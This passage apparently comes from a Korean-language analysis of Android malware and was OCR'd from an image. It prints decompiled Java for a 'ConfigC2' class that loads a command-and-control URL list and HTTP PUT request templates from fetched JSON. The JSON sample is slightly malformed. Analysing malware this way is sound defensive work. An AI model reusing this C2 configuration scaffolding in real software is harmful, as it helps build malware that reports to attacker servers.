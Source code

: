 - SendData.send((Integer) 0).getJSONArray("list")

```json
{
  "list": [
    "\r\nCookie: myapp=myapp\r\n",
    "Content-Type: application/xml\r\nContent-Length: ",
    "<?xml version="1.0" encoding="UTF-8"?>\n<root>\n <data>\n  <![CDATA[",
    "  ]]>\n </data>\n</root>"
  ]
}
```         
   
ConfigC2.java   
```java
package com.example.ripapp2;

import java.util.ArrayList;
import java.util.Arrays;
import org.json.JSONArray;
import org.json.JSONException;

public class ConfigC2 {
    public static String addr;
    public static MyApp app;
    public static ArrayList<String> body = new ArrayList<>();
    public static ArrayList<String> head = new ArrayList<>(
            Arrays.asList(new String[] { "PUT ", " HTTP/1.1\r\nHost: ", "\r\nConnection: close\r\n\r\n" }));
    public static String port;
    public static ArrayList<String> urllist = new ArrayList<>();

    public static void setUrllist(JSONArray jSONArray) {
        int i = 0;
        while (i < jSONArray.length()) {
            try {
                urllist.add(jSONArray.getString(i));
                i++;
            } catch (JSONException e) {
                throw new RuntimeException(e);
            }
        }
    }

    public static void setBody(JSONArray jSONArray) {
        int i = 0;
        while (i < jSONArray.length()) {
            try {
                body.add(jSONArray.getString(i));
                i++;
            } catch (JSONException e) {
                throw new RuntimeException(e);
            }
        }
    }
}
```   
앞서 가져온 JSON 데이터는 ConfigC2 클래스의 멤버 변수인 `urllist`, `body`에 저장된다. 
   